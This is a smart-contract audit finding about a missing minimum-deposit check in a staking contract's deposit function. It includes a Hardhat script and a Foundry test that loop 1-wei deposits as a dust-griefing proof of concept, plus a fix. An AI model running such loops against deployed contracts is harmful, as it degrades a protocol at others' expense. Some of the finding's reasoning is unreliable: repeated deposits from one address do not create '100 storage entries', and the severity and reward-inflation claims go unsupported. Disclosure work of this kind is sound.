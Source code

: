 # Lack of Minimum Deposit Enables Dust‑Griefing in `deposit` (Staker.sol)

## Summary
`deposit` accepts any positive `_amount`. An attacker can repeatedly deposit *dust* (e.g., 1 wei) to bloat contract state and increase operational gas costs, degrading protocol performance over time.

## Finding Description
At **line 108** of `Staker.sol`:

```solidity
function deposit(uint256 _amount) external ... validAmount(_amount) {
    ...
    _balances[msg.sender] += _amount;
    IERC20(tokenIn).safeTransferFrom(...);
}
```

The only guard is `validAmount`, which checks `_amount > 0`. Since no minimum amount is enforced:

1. **Storage & Gas Griefing** – An attacker can deposit extremely small amounts from many accounts (or many times) to inflate `_balances`, increasing gas costs of future operations.
2. **Reward Rounding Issues** – Reward distribution functions that use small balances may suffer rounding errors or precision loss, leading to fairness issues.
3. **Reward Inflation Attack Surface** – Malicious users could manipulate reward computation using dust to maximize rewards relative to stake.

Although `totalSupplyLimit` is large (`1e34`) and not likely to be exhausted, state size and fairness can still be degraded via dust.

## Impact Explanation
The protocol becomes **more expensive to use**, with state bloat and potential rounding attacks on reward logic. While it doesn’t halt core operations, it undermines economic efficiency and fairness — especially in long-lived staking pools.

Impact is **Medium** due to operational degradation and reward distortion.

## Likelihood Explanation
* **Easy to exploit** – Any user with minimal funds can interact.
* **Common bot pattern** – Dust attacks are often performed using scripts or automated agents.
* **No rate limits** – If deposits are not throttled, the loop-based attack is feasible.

Likelihood is **High**.

## Proof of Concept

### ⚙️ Normal Script (Hardhat/Node)

```javascript
// scripts/dustGrief.js
const { ethers } = require("hardhat");

async function main() {
  const [attacker] = await ethers.getSigners();
  const staker = await ethers.getContractAt("Staker", "<STAKER_ADDRESS>");
  const token = await ethers.getContractAt("IERC20", "<TOKEN_ADDRESS>");

  await token.connect(attacker).approve(staker.address, ethers.constants.MaxUint256);
  const dust = 1;  // 1 wei

  for (let i = 0; i < 100; i++) {
    await staker.deposit(dust, { gasLimit: 200_000 });
  }
}
```

*Result:* Repeated deposits increase `_balances[attacker]` and create storage entries that consume more gas in future reward-related operations.

---

### 🛠 Foundry Test

```solidity
// test/DustDeposit.t.sol
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/Staker.sol";
import "../src/Mocks/MockToken.sol";

contract DustDeposit is Test {
    Staker staker;
    MockToken token;
    address attacker = address(0xA11CE);

    function setUp() public {
        token = new MockToken("Test", "TST", 18);
        staker = new Staker(address(token));
        token.mint(attacker, 1e18);
        vm.startPrank(attacker);
        token.approve(address(staker), type(uint256).max);
        vm.stopPrank();
    }

    function testDustGriefing() public {
        vm.startPrank(attacker);
        for (uint256 i = 0; i < 100; i++) {
            staker.deposit(1); // 1 wei each
        }
        vm.stopPrank();

        // attacker balance will be 100 wei, but storage now has 100 entries.
        assertEq(staker.balanceOf(attacker), 100);
    }
}
```

This shows how minimal capital can create extensive storage overhead and potential gas griefing.

## Recommendation
Add a minimum deposit threshold:

```solidity
uint256 public constant MIN_DEPOSIT = 1e15; // 0.001 tokens

function deposit(uint256 _amount) external ... {
    require(_amount >= MIN_DEPOSIT, "deposit too small");
    ...
}
```

Alternatively, store this as a configurable governance-controlled variable for future tuning.

This eliminates spam deposits and makes economic manipulation more difficult.
